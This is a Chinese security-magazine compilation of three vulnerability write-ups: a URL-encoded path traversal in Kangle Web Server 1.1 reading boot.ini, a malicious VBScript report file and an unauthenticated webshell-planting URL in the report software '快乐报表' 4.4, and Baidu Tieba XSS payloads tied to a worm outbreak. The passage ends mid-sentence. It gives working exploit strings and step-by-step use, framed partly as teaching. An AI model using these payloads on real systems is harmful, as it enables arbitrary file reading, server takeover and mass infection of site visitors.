这一次新发现的安全漏洞属于一个非常典型的越权漏洞，该漏洞造成的直接后果是能够让攻击者下载到已安装 Kangle Web Server 的服务器上的任意文件，甚至可以利用该漏洞来遍历服务器上的文件目录。现在，我们就来看看该漏洞是如何被我们发现的。

这里发现漏洞的 Kangle Web Server 版本号为 1.1。我们在 Windows 系统下安装好该版本的 Kangle Web Server，并运行该程序后，打开浏览器输入网址：http://127.0.0.1 将会访问到 Kangle Web Server 的初始页面。此时，不要关闭浏览器，现在要对网址做一个小改动。我们在 127.0.0.1 的后面加上一段特殊编码的字符串“..%2F..%2F..%2F..%2F..%2F..%2Fboot.ini”。熟悉 ASCII 编码的读者朋友们一眼就能看出我们输入的字符串其实就是“../../../../../../boot.ini”。这里最为关键的内容就是这个“../”符号，它代表着上一层目录的意思。

按照道理来说，Kangle Web Server 在解析这个特殊符号时应当阻止用户利用该符号访问到 Web 目录以外的内容，但是结果真的是这样吗？现在，让我们在浏览器中按 Enter 键，如图 1 所示。



图 1

看到了吗？此刻，浏览器竟然提醒我们下载文件。如果这里单击“打开”按钮，你会发现浏览器下载到的文件就是服务器 C 盘目录下的系统文件！这意味着，我们此刻已经跨越了 Kangle Web Server 所规定的 Web 目录，访问到了 Web 目录以外的内容。

利用“%2F”符号，我们甚至可以对服务器进行目录遍历，如图 2 所示。



图 2

虽然看起来这个漏洞似乎很好发现，但是，如果我们在漏洞挖掘过程中只是照着死板的思路，利用“../”来测试的话，你就会发现 Kangle Web Server 不会对“../”符号产生错误解析，它会阻止用户利用“../”符号来达到跨越目录的目的。而我们这里将“/”这个符号进行一定的编码，将其转化为十六进制的 ASCII 码表达式，这个时候，Kangle Web Server 在解析时就发生了错误，从而造成了安全漏洞的出现。

最后，新版本的 Kangle Web Server 已经不存在该安全漏洞，我们这里主要是学习这个漏洞的挖掘思路，在以后面对 Web 服务类型的软件时，可以参照这里的方法进行漏洞挖掘。

前置知识：无

关键词：快乐报表、漏洞

## “快乐报表”本地代码 0day 漏洞


文/图 爱无言

“快乐报表”是由 www.happybi.com 开发的一款多功能报表软件，该软件能够帮助用户实现各种样式的报表。同时，该软件还支持 B/S 或者 C/S 的应用，方便终端用户使用。看到功能如此强大的报表软件，正好自己手头需要一个能够支持使用浏览器来制作报表的软件（即 B/S 模式）。在实际选择使用“快乐报表”软件之前，我将该软件下载到自己的虚拟机系统中做了一个初步安全测试，结果却发现该软件的安全问题很多，有一些问题是可以修补的。这里将这些安全漏洞公布出来，与大家一起讨论分享。

我这里测试的“快乐报表”软件是 4.4 版本。由于“快乐报表”支持在服务器上安装使用，于是我选择将该软件安装在 Windows 2003 系统上，同时，按照软件要求，给 Windows 2003 系统安装了 IIS。

安装成功之后，我们首先来看第一个安全漏洞。如果某个用户在自己的计算机上安装了“快乐报表”，那么他可以从系统“开始”菜单中找到并运行“快乐报表”，如图 1 所示。

单击图 1 中的“文件”菜单，我们可以看到“快乐报表”允许用户建立两种类型的文件，如图 2 所示。

一种类型的文件是“报表文件”，另外一种是“书本文件”。我们测试时采用建立一个报表文件，所以直接选择图 2 中的“报表文件”，然后单击“下一步”按钮直到完成。



图 1



图 2

在建立完报表文件后，我们发现其实“快乐报表”提供了很多可以选用的模板报表。在图 1 中，右侧显示的就是“快乐报表”提供的模板报表。我们这里选择了一个叫做“基本”的模板报表，打开该报表后，右击该报表，如图 3 所示。

在图 3 出现的菜单中我们看到了一个名为“事件”的选项。选择该选项后，会进入到“事件编辑器”窗口，如图 4 所示。

接收到这些报表文件后，一旦打开就会引发事件，从而顺利执行我们的恶意脚本代码。



图 5



图 3



图 4

其实，我们完全可以对报表文件进行更加直接的修改。你可以用 Windows 系统自带的记事本程序打开报表文件，会发现其中的内容都是 XML 代码，我们可以直接在这里插入恶意脚本代码，如图 6 所示。

```xml
...<Section Name="详情" ...>
<Fields><Field ... Name="Label1" ...></Field></Fields>
...<font color='red'>
<![CDATA[<script language="vbscript">
Set a=CreateObject("wscript.shell")
a.run("cmd.exe")
</script>]]>
```

图 6

查阅“快乐报表”提供的帮助文档，我们了解到图 4 中的事件编辑器的作用是：由于“快乐报表”支持脚本语言，为此可以利用事件编辑器为我们制作出来的报表文件建立事件，一旦事件发生，我们在报表中输入的脚本语言就会被立即执行。

这个功能可谓十分强大，因为这意味着一旦我们制造一个带有恶意脚本代码的“快乐报表”，当用户打开这个“快乐报表”时就会因为我们设定的事件被触发，从而在用户的系统上执行恶意脚本代码。

事情是不是这样呢？我们在图 4 中选择了“页尾”这里的 OnFormat 事件，在其中输入了一段用来调用 Windows 系统中 shell 对象的脚本代码，其目的是运行系统中的 cmd.exe 程序。现在，保存这个报表文件，我们单击图 3 中间的一个放大镜图标，即“预览”图标，你会发现此刻系统竟然运行了 cmd.exe 程序，如图 5 所示。毫无疑问，我们的猜测是对的，借助“快乐报表”提供的事件功能，我们可以在报表中插入任意恶意脚本代码。

看完第一个安全漏洞，也许有的读者觉得不过瘾。其实这个漏洞是利用“快乐报表”软件来实现对用户系统的攻击。我们接下来看这个新漏洞，则是一个用户利用“快乐报表”软件来实现对服务器系统的攻击，这下可就过瘾了！

在服务器上安装完“快乐报表”后，软件会建立一个新的 Web 虚拟目录，名字为“HappyPortal”，用户可以通过浏览器访问这个网址来实现利用浏览器制作报表。这意味着，“快乐报表”有一套 Web 应用程序，这些程序的代码文件就存放在“快乐报表”安装目录下的“HappyPortal”文件夹中。

在这个文件夹中，我们找到一个很有意思的文件 CreateProjectFile.asp，其中的代码存在严重的安全隐患，如下所示。

```asp
strContent = Request("Content")
ProjectName = request("ProjectName")

Set fso = CreateObject("Scripting.FileSystemObject")
If fso.FolderExists(RootRealPath & "publish/" & ProjectName) Then
    fso.DeleteFolder(RootRealPath & "publish/" & ProjectName)
End If
```

```vb
fso.CreateFolder(RootRealPath & "publish/" & ProjectName)
else
    fso.CreateFolder(RootRealPath & "publish/" & ProjectName)
    call portal.addNewCategory(ProjectName)
end if
'以上代码实现建立一个文件夹，该文件夹名称来自用户提交的参数 ProjectName
strContent = "<?xml version=""1.0"" encoding=""GBK""?>" & strContent
Set tf = fso.CreateTextFile(RootRealPath & "publish/" & ProjectName & "/project.xml", true)
tf.WriteLine(strContent)
tf.Close
'建立完文件夹后，在其中建立一个名为 project.xml 的文件
```

我不知道读者看到上面的代码后会有什么感受，真是天赐良机啊！Windows 2003 系统存在一个文件名解析漏洞，当一个文件夹的名称以 .asp 命名时，Windows 2003 系统会将其中的文件内容当做 ASP 代码来解析。

如此一来，如果我们利用 CreateProjectFile.asp 文件，给它提交 ProjectName 为 .asp 的文件名，而 strContent 为一句话的 AspShell 代码，这不就可以在服务器上创建一个 WebShell 了吗？

同时，我们发现 CreateProjectFile.asp 在访问的时候竟然不需要任何安全认证。现在，我们在浏览器中输入以下网址：`http://服务器IP/HappyPortal/CreateProjectFile.asp?ProjectName=1.asp&Content=%25><%25eval request('cmd')%25>`。

注意这里在输入 strContent 的内容时开始输入了一个 `%25>`，这是一个很关键的地方……

访问上面的网址后，你会发现服务器上果真建立了一个 1.asp 文件夹，如图 7 所示。



打开该文件夹后，我们能够看到 “project.xml” 文件，打开该文件我们可以看到 ASP 代码已写入了，如图 8 所示。



现在，我们完全可以控制服务器了。没有想到，“快乐报表”竟然同时存在一个既能够攻击用户，又能够攻击服务器的安全漏洞……

- 前置知识：无
- 关键词：百度、i贴吧、跨站

## 百度 i贴吧 0day 跨站漏洞


文/图 腾袭

经常逛百度贴吧的读者们可能知道，百度在 2010 年 12 月 31 日晚和 2011 年 1 月 1 日晚一共爆出了 3 个 0day 跨站漏洞，都是高级别的，2 个 bug 是和小游戏有关的，剩下 1 个是与贴吧中显示的会员徽章有关的。

在说本文的 0day 前，我们先来看看之前的 3 个 bug 是怎么被发现和利用的。首先是前 2 个 bug，2010 年 12 月 31 日下午，小游戏提交分数的算法首先被我的一个朋友反编译出来，并翻译成 VBS 脚本语言，随之而来的是 Chrome 浏览器插件，可以直接写你想要的分数。

接着，我看到了有 1 分，本着好奇的心态，笔者尝试使用公开的 VBS 脚本提交了一串英文，想不到居然成功提交了，并且出现在 i 贴吧上，如图 1 所示。



图 1

理应显示数值的地方居然可以显示英文，我对百度的工作人员制作数据库的能力表示极大的怀疑。紧接着，是笔者的另外一个朋友，看到我的炫耀后立刻尝试输入 `<script>` 标签，没错，脚本被执行了！可惜这个漏洞暴露得太快，很快就被百度的工作人员修复了，不能提交非数字字符了。就在其以为没有问题时，其实正是为第 2 个 bug 的爆发给足了充分的准备时间。

在同一个地方，除了分数显示上有问题外，在前面的贴吧名称的显示上也存在着问题。可能是由于这个小游戏能在“小游戏吧”和“黄金矿工吧”上玩，所以百度炫耀游戏成绩的时候还要提交贴吧的名称，这时，我们试着提交了“`</a><script>alert("xxx");</script><a href="xxx">黄金矿工`”这样的贴吧名称，没错，有对话框跳出来，立刻删掉，去做充分的准备了。

接下来的事大家都知道了，就是在 2011 年 1 月 1 日晚上爆发了 922ee 病毒，因为都是最高分，我们从黄金矿工的排名上可以看出，每秒有 400 多人感染，这个速度是相当可怕的。

同一天晚上暴露的另外一个跨站漏洞就是会员徽章的 bug，由于准备不够充分，被另外一个人泄露出去了，所以没有怎么利用，不过那次可谓是“全民”使用漏洞！由于会员徽章是在头像附近，所以几乎所有看到使用方法的人都去尝试使用这个漏洞，那段时间百度贴吧弹出对话框不断啊！

更有趣的是百度在 2011 年 1 月 6 日更新了一次贴吧版本，居然以前已经修复的会员徽章 bug 又爆出来了，不过这次 1 小时左右就修复了，看来曾经的补丁只是临时的，更新后没有把修正的补丁也弄上去。

之前的三大漏洞就介绍到这里，另外值得一提的是，其实投票系统在 2011 年 1 月 4 日之前也有个 0day 的漏洞，在投票选项中写入 HTML 代码居然没有过滤，直接被写入了网页代码，如图 2 所示。

